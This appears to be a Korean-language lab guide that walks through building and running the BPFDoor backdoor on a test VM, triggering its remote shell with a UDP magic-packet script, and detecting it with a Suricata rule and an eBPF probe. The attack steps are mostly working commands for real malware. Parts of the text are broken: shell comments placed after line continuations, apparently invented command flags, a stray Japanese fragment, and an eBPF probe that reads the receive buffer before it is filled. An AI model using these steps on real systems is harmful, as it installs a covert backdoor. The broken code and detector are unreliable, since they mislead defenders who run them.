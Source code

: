아래는 malwaredevil/BPFDoor-Backdoor 리포지토리를 이용한 PoC(Proof-of-Concept) 구성 예시입니다.  
→ **격리된 테스트 VM**(예: VirtualBox/KVM) 또는 Docker 컨테이너에서만 실행하세요!  

---

## 1. 테스트 환경 준비

- **OS**: Ubuntu 22.04 (또는 Rocky Linux 9)
- **필수 패키지**:
  ```bash
  sudo apt-get update
  sudo apt-get install -y build-essential git python3 python3-pip bpfcc-tools
  ```
- **네트워크**: VM은 호스트 전용 또는 내부 브리지로 외부 접근을 차단

---

## 2. 백도어 소스 클론 & 빌드

```bash
git clone https://github.com/malwaredevil/BPFDoor-Backdoor.git
cd BPFDoor-Backdoor
make
# → 결과물: ./bpfdoor
```

---

## 3. 백도어 실행 (Victim)

```bash
# 루트 권한으로 실행
sudo ./bpfdoor \
  --listen-ip 0.0.0.0 \   # 수신할 IP
  --listen-port 9999      # 매직 패킷 포트
```

> 이 상태로 대기하면, 지정한 UDP 포트로 “magic sequence”를 받았을 때 쉘(Back-Connect)을 열きます。

---

## 4. 매직 패킷 송신 (Attacker)

```bash
# send_magic.py
import socket

MAGIC = b'MAGICPING'          # 리포지토리 코드에 맞춰  
TARGET = ("192.168.56.101", 9999)  # Victim IP:Port

s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.sendto(MAGIC, TARGET)
print("sent magic packet")
```

```bash
python3 send_magic.py
```

→ Victim 쪽에서 `nc` 등으로 쉘이 뜨는지 확인

---

## 5. 탐지 시나리오

### 5.1 Suricata 룰

```yaml
# /etc/suricata/rules/bpfdoor.rules
alert udp any any -> any 9999 \
  (msg:"[PoC] BPFDoor magic packet"; content:"MAGICPING"; sid:9000001; rev:1;)
```

```bash
sudo suricata -c /etc/suricata/suricata.yaml --af-packet any -S /etc/suricata/rules/bpfdoor.rules
```

---

### 5.2 eBPF 실시간 모니터링 (bcc 사용)

```python
# detect_bpfdoor.py
from bcc import BPF

prog = r"""
int kprobe__sys_recvfrom(struct pt_regs *ctx) {
    // buf 포인터는 PT_REGS_PARM2(ctx)
    char buf[8];
    bpf_probe_read(&buf, sizeof(buf), (void *)PT_REGS_PARM2(ctx));
    // "MAGICPIN" 검사 (마지막 G는 다음 바이트)
    if (buf[0]=='M' && buf[1]=='A' && buf[2]=='G' && buf[3]=='I'
     && buf[4]=='C' && buf[5]=='P' && buf[6]=='I' && buf[7]=='N') {
        bpf_trace_printk(">> BPFDoor trigger detected\\n");
    }
    return 0;
}
"""
b = BPF(text=prog)
print("Tracing recvfrom() for magic… Ctrl-C to exit")
b.trace_print()
```

```bash
sudo python3 detect_bpfdoor.py
```

→ magic 패킷을 받을 때마다 `>> BPFDoor trigger detected` 로그 출력

---

## 6. 전체 PoC 흐름

1. **Victim VM** 에 Suricata (또는 eBPF 스크립트)로 모니터링 시작  
2. **Victim VM** 에서 `sudo ./bpfdoor` 실행  
3. **Attacker VM** 에서 `python3 send_magic.py` 실행  
4. Suricata 경고 발생 또는 eBPF 로그 확인 → 공격 탐지  

---
